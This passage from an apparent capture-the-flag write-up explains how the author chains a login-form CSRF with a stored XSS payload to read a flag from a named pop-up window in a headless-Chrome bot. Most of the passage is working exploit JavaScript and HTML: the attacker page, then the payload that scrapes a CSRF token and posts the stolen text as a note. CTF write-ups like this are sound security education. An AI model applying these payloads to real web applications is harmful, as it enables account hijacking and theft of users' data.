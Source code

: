 I learned that what makes this possible is the second parameter to [`window.open`](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) was [the target parameter](https://developer.mozilla.org/en-US/docs/Web/API/Window/open#parameters), which names the window, similar to the way the iframes were named in the previous version of the exploit. If you then call `window.open` again after navigating the page, with a blank URL and the same target parameter, you can get back a reference to the already open window.

This must be what the third hint is referring to, because normally the pop-up blocker requires user interaction to open a window, but headless chrome doesn't.

I then tried to apply this same method to my exploit script. I changed the bottom to open a new window with the target of `flag`, wait a bit to let the flag load, then login to trigger the XSS payload:

```js
(async function () {
  const form = createForm("POST", instance + "/login");
  createFormInput(form, "username", xssUser.username);
  createFormInput(form, "password", xssUser.password);
  document.body.appendChild(form);

  await sleep(1000);
  window.open(instance + "/notes", "flag");
  await sleep(3000);
  form.submit();
});
```

Then, I modified the flag getting line of the XSS payload to grab the flag from the open window:

```js
const flag = window.open("", "flag").document.body.innerText;
```

Putting it all together, here is the final XSS payload:

```html
<script>
  (async function xssPayload() {
    const flag = window.open("", "flag").document.body.innerText;
    const tokenReq = await fetch("/new");
    const tokenHTML = await tokenReq.text();
    const token = /name="_csrf" value="(.+?)"/g.exec(tokenHTML)[1];
    await fetch("/new", {
      method: "POST",
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body:
        `_csrf=${encodeURIComponent(token)}` +
        `&title=flag&content=${encodeURIComponent(flag)}`,
    });
  })();
</script>
```
